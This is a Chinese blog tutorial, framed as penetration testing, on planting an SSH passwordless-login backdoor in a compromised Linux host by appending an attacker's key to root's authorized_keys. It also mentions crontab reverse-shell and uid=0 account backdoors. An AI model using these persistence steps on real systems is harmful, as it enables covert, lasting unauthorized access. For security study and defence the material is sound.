




# 渗透测试|Linux下的ssh免密登录后门

[TRY](https://www.nctry.com/1500.html) 2020-02-26 2,848 [7](https://www.nctry.com/1500.html#comments)

# 后代人的权利远比当代人的欲望更重要。

来自：一言

var xhr = new XMLHttpRequest(); xhr.open('get', 'https://v1.hitokoto.cn/'); xhr.onreadystatechange = function () { if (xhr.readyState === 4) { var data = JSON.parse(xhr.responseText); var hitokoto = document.getElementById('hitokoto'); hitokoto.innerText = data.hitokoto; } } xhr.send();

## 前言

相信大家在做渗透测试的时候，会遇到后渗透阶段的权限维持问题，常见的linux后门有crontab后门（在计划任务里添加反弹shell任务），超级用户后门（也就是uid=0的用户），ssh免密登录后门等等等~~~，当然你有能力的话，可以试试破解root密码~~这里我就详细的教大家如何利用ssh后门和计划任务后门（下次讲，这次懒得写了~）进行权限维持。（以下内容适合小白观看，大佬勿喷）

## 情景模拟

让我们假设一下，你已经通过目标主机的漏洞成功拿到了shell，但是可能这个漏洞不知道什么时候就会被管理员修复，你也不知道root权限的密码，那咋办嘛？哭？寻找新的漏洞？，当然不用这么麻烦，所以我们需要给目标主机留个后门，方便自己随时日进对方系统~

环境如下：

攻击机（本机）：kali    ip: 1.1.2.3

目标机：ubuntu   ip: 1.1.2.5

## ssh免密登录后门

ssh免密登录就是在自己的攻击机上生成一个密钥，然后把他放进目标主机的ssh密钥存放文件里（个人理解~），然后攻击机就可以拿着这个密钥直接连接目标主机了，不需要密码，当然后门嘛，还是会有被发现的风险的~

1.在kali（自己的服务器）上生成密钥

Shell

1. ssh\-keygen \-b 4096 \-t rsa #直接三个回车搞定

复制 文本 高亮

2.查看一下生成的密钥

3.将密钥里的内容全部复制，注意是全部！然后复制到目标服务端的`authorized_keys`中，命令如下

注意：是在你需要留后门的主机上执行以下命令！

Shell

1. echo "你自己的密钥内容"\>>/root/.ssh/authorized\_keys #两个>>表示追加在文件后面
2. chmod 600 ~/.ssh/authorized\_keys #编辑完成后还得修改权限
3. chmod 700 ~/.ssh

复制 文本 高亮

详细操作可看下图：

4.在攻击机上使用免密登录测试

Shell

1. ssh \-i /root/.ssh/id\_rsa root@目标ip

复制 文本 高亮

测试截图如下：

可以看到不用密码就直接进入了目标服务器，好了时间也不早了，今天的教程到这里就结束了，下次再分享crontab计划任务后门。

PS：本站只是分享技术，切勿进行违法操作，纯手打，希望转载表明出处，谢谢。

有趣提示：后门还是有被发现的风险哦。

参考：

https://www.nctry.com/?s=ssh%E5%85%8D%E5%AF%86